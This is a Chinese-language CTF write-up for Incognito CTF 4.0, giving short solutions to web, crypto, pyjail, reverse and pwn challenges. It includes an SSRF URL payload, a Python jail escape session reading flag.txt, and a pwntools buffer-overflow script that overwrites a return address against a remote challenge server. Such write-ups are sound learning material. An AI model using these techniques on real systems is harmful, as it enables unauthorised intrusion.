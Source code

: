 ```yaml
---
title: Incognito CTF 4.0
date: 2023-02-18 20:18:45
tags: ['CTF', 'Python']
categories: ['比賽']
description: Incognito CTF 解題紀錄
---
```


## Web

### Get flag 1
SSRF `?url=http://0.0.0.0:9001/flag.txt`

### Low on options
根據題目提示用OPTIONS request得到`As I said, I am low on options...`。 ~~一句廢話~~
![](./loo-options.png)
索性把所有method全部試一次，PROPFIND request拿到flag。
![](./loo-propfind.png)

## Crypto

### Ancient
拿到一個缺header的png檔，將header補上後得到有象形文字的圖片，以圖搜圖查到是十三世紀的一種記數方式，用[此網站](https://www.dcode.fr/cistercian-numbers)轉成數字對照Ascii table便可拿到flag。
![](./challenge.png)

## Pyjail

### The only jail
nc進去發現是一個偽裝過的Python環境，有過濾一些像斜線、反斜線、大括號等字元，用os的path join便可湊出路徑用讀取flag。
```python
Welcome to the IIITL Jail! Escape if you can
jail> import os
jail> print(os.listdir())     
['opt', 'srv', 'tmp', 'lib', 'bin', 'media', 'lib64', 'dev', 'sys', 'home', 'libx32', 'root', 'var', 'run', 'etc', 'sbin', 'lib32', 'usr', 'boot', 'mnt', 'proc', '.dockerenv', 'start.sh']
jail> print(os.listdir("home"))
['ctf']
jail> path = os.path.join("home", "ctf")
jail> print(os.listdir(path))
['.bash_logout', '.bashrc', '.profile', 'flag.txt', 'jail.py']
jail> path = os.path.join(path, "flag.txt")
jail> flag = open(path)
jail> print(flag.read())
ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}
jail> 
```

## Rev

### Meow
flag藏在.rodata

## Pwn

### Baby Flow
checksec什麼都沒開，BOF把return address置換成get_shell的即可。
```python
from pwn import *

#conn = process('./babyFlow')
conn = remote('143.198.219.171', 5000)

payload = b'A'*20 + p32(0x80491fc)

conn.recvuntil('can you pass me?\n')

conn.sendline(payload)

conn.interactive()
```
